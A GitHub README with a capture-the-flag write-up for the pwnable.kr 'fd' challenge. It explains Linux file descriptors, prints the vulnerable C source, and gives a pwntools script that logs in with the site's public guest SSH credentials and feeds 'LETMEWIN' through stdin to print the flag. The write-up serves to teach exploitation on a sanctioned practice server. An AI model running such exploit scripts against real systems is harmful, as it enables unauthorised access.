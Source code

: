 # pwnable.kr

'pwnable.kr' is a wargame site which provides various pwn challenges regarding system exploitation. While playing pwnable.kr, you could learn/improve system hacking skills.

The challenges are divided into four categories.  

[Toddler's Bottle]  -  very easy challenges with simple mistakes.  
[Rookiss]  -  typical bug exploitation challenges for rookies.  
[Grotesque]  -  these challenges are grotesque-y. painful to solve it, but very tasty flag  
[Hacker's Secret]  -  intended solution for these challenges involves special techniques.  

Here are  my writeups of the challenges, starting with the easiest ones.

## Toddler's Bottle

### fd

#### The challenge description
Mommy! what is a file descriptor in Linux?  
ssh fd@pwnable.kr -p 2222   
(pw:guest)  

We are given a hint, the file descriptor and the ssh login info.

According to wikipedia, a filed descriptor is a handler used to acces a file or other input/output resource. 
A file descriptor is a non-negative integer, generally represented in the C programming language as the type int (negative values being reserved  to indicate an error condition).  
There are 3 types of file descriptors:  

| File          | Stream         | Int   |
| ------------- |:-------------:| -----:|
|standard input    |stdin    | 0
|standard output   | stdout |   1 |
|standard error| stderr |    2 |
 
#### The source analysis
After the ssh we notice 3 files: the executable file, the source code of the file, and the flag. If we try to open the flag file, we get permission denied.  
![alt text](https://github.com/Alex-Stinga/pwnable.kr/blob/master/fd/fd1.png)

The source code of fd.c is:
``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char buf[32];

int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}

	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);

	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	
	printf("learn about Linux file IO\n");
	return 0;
}
```

The programs gets a number as input and substracts the 0x1234 value (4660 in dec). After googling the read function we find it's syntax ```ssize_t read(int fildes, void *buf, size_t nbytes); ```  
Fildes is a file descriptor of where to read the input. You can either use a file descriptor obtained from the open system call, using a text file we have on computer, or you can use 0, 1, or 2, to refer to standard input, standard output, or standard error, respectively.

In our case we need to pass the 0 value which is obtained subtracting the 0x1234 value with itself. After this we need to pass the string LETMEWIN

#### The exploit

```python
#!/usr/bin/python
from pwn import *

# if we connect to the host in the shell we will use the command: ssh fd@pwnable.kr -p 2222
# the parameters are username host password port

shell = ssh('fd' ,'pwnable.kr' ,password='guest', port=2222)

#we run the fd file and the input arguments are fd and 4660 
process = shell.process(executable='./fd', argv=['fd','4660'])

#send the required data
process.sendline('LETMEWIN')

#print the received bytes
print process.recv() 
```

And we got the flag.  
![alt text](https://github.com/Alex-Stinga/pwnable.kr/blob/master/fd/exploit.png)
